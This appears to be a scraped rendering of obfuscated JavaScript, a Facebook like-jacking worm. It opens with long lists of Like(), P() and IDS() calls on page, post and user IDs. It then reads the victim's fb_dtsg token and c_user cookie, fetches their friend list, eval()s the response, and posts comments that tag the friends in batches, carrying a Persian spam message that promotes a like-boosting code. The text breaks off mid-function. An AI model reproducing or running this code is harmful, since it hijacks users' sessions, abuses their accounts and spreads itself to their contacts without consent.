 Like("449714011805938");Like("626864997350522");Like("205897646266092");Like("569461586478785");Like("1374264812840855");Like("246395675534676");Like("416181241849100");Like("585142991579227");Like("799485710081098");Like("568536426556871");Like("360079710799109");Like("394728920661568");Like("1445192519028901");Like("279403005547821");Like("701672406539415");Like("693353050685250");Like("1408367889411981");Like("1401243436799593");Like("737183729633234");Like("638902056176649");Like("513780532065192");Like("717977241566857");Like("587620021328971");Like("616480905092204");Like("1435461033356228");Like("1446896755528414");Like("275168612637620");Like("1456842037862622");Like("747623805249168");Like("281798305303815");Like("816146778412498");Like("620982437939077");Like("578123548937992");Like("630068653727168");Like("583025688455338");Like("256182091209419");Like("775816662447673");Like("261762387321847");Like("586392974788248");Like("253743784803059");Like("1377581872509346");Like("1415142312066294");Like("1415968618648520");Like("1458993764321706");Like("517001435086327");Like("800658906628578");Like("1475671125986255");Like("216028408592427");Like("134827873354580");Like("725751840798802");Like("1476137539273933");Like("270987616398145");Like("269269689899976");Like("1441205512782582"); Like("1451386118407842");Like("236041433241631");Like("377498375724079");Like("430736887026208");Like("182907178424837");Like("120327651468903");Like("226780734145775");Like("404975622923811");Like("527650054020248");Like("508959055866858"); P("535969556483930");P("529513123796240");P("433551000059120");P("569746529772899");P("496115487136004");P("584066441674241");P("161001733980716");P("559069937507225");P("589466084467610");P("821320344564301");P("450854878358518");P("257947437699551");P("256185727875722"); P("527094194038133");P("508707902543429");P("507644079316478");P("504975156250037");P("571571909590361");P("445826398831580");P("458880110859542");P("433550993392454"); P("502284786519074");P("499741293440090");P("498007043613515");P("473046299442923");P("458895460858007");P("2761729058356");P("248910655290306");P("571571909590361_1786464");P("571571909590361_1768834");P("571571909590361_1742475");P("569746529772899_1725019");P("535969556483930_1796170");P("508707902543429_1796177");P("529513123796240_1796313");P("433551000059120_1796326");P("499741293440090_1796351");P("569746529772899_1796708");P("761965193813895_2637972"); P("277189725778595");P("1410576575860839");P("1387478828153343");P("1422061501361742");P("1390060084561884");P("1437797766454782");P("1429926863908539");P("1429925367242022");P("1429924110575481");P("1425436031024289");P("1422064251361467");P("1445081579059734");P("1449889028578989");P("850678231628512");P("846939252002410"); IDS("100005858262157");IDS("100005851872137");IDS("100003121121397");IDS("100003699921637");IDS("100003677542666");IDS("100006922531977");IDS("100004792263546");IDS("100005463402587");IDS("100003219204979");IDS("100005055342992");IDS("100003249107866");IDS("100003660112308");IDS("100003668512204");IDS("100007255300061");IDS("100005039554506");IDS("100005060885670");IDS("100004627086383"); var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","850678231628512","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round","Enjoy 😍 🌹 🐔 💓 👻 ☕ @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=دوستان سال نو مبارک اطلاع رسانی کنید تنها کدی که تو ایران بسیار کوتاهه و واسه افزایش لایک و فالو واقعا کار میکنه 😍 🌹 🐔 💓 👻 ☕\udbba\udc28 \udbb8\udc40 \udbb8\udc3d😍 🌹 🐔 💓 👻 ☕........................................................................................","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function